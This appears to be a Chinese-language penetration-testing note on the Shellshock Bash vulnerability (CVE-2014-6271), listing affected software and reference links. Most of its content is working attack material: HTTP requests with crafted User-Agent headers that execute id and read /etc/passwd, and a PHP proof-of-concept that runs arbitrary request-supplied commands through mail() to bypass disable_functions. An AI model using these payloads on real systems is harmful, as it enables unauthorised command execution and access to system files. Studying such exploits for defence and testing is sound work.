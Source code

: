 # 破壳漏洞

## 破壳漏洞

### 参考

- https://www.cnblogs.com/qmfsun/p/7591757.html
- https://github.com/vulhub/vulhub/tree/master/bash/shellshock

![](../images/破壳漏洞影响范围.png)
GNU Bash <= 4.3，此漏洞可能会影响到使用ForceCommand功能的OpenSSH sshd、使用mod_cgi或mod_cgid的Apache服务器、DHCP客户端、其他使用Bash作为解释器的应用等。



### 解析

[web服务器和CGI的关系](https://blog.csdn.net/kobejayandy/article/details/11906505)

![](../images/491580-20170926162151276-378081397.png)

### 测试

```http

GET /victim.cgi HTTP/1.1
Host: 127.0.0.1:1235
User-Agent: () { foo; }; echo Content-Type: text/plain; echo; /usr/bin/id
```
```
User-Agent: () { :;};a=`/bin/cat /etc/passwd`;echo "a: $a"
User-Agent: () { :;}; echo `/bin/cat /etc/passwd`
```

**php mail相关函数可利用此漏洞**

poc

```php
<?php 
# Exploit Title: PHP 5.x Shellshock Exploit (bypass disable_functions) 
# Google Dork: none 
# Date: 10/31/2014 
# Exploit Author: Ryan King (Starfall) 
# Vendor Homepage: http://php.net 
# Software Link: http://php.net/get/php-5.6.2.tar.bz2/from/a/mirror 
# Version: 5.* (tested on 5.6.2) 
# Tested on: Debian 7 and CentOS 5 and 6 
# CVE: CVE-2014-6271 

function shellshock($cmd) { // Execute a command via CVE-2014-6271 @mail.c:283 
   $tmp = tempnam(".","data"); 
   putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1"); 
   // In Safe Mode, the user may only alter environment variableswhose names 
   // begin with the prefixes supplied by this directive. 
   // By default, users will only be able to set environment variablesthat 
   // begin with PHP_ (e.g. PHP_FOO=BAR). Note: if this directive isempty, 
   // PHP will let the user modify ANY environment variable! 
   mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actuallysend any mail 
   $output = @file_get_contents($tmp); 
   @unlink($tmp); 
   if($output != "") return $output; 
   else return "No output, or not vuln."; 
} 
echo shellshock($_REQUEST["cmd"]); 
?>
```

imap_mail函数同样也可以